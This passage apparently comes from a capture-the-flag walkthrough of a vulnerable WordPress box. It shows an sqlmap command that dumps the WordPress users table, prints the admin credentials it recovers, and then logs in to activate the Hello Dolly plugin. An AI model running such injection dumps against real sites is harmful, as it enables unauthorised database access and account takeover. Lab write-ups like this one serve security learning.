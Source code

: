 Well, let's see what's inside the table.

```
$ ./sqlmap.py -r request.txt -D wordpress8080 -T users --dump
```

The table only has one record.

```
username,password
admin,SuperSecretPassword
```

We can use that to log in to the WordPress site.

Now if we go to the plugin management page in the WordPress admin, we can find the inactive Hello Dolly plugin. Let's try activating it.

![Screenshot-05](/assets/images/posts/freshly-wordpress-02.png)

The Hello Dolly plugin will show a random line from a Louis Armstrong's song [Hello, Dolly!](http://www.lyricsfreak.com/l/louis+armstrong/hello+dolly_20085335.html) on the admin panel.

![Screenshot-06](/assets/images/posts/freshly-wordpress-03.png)
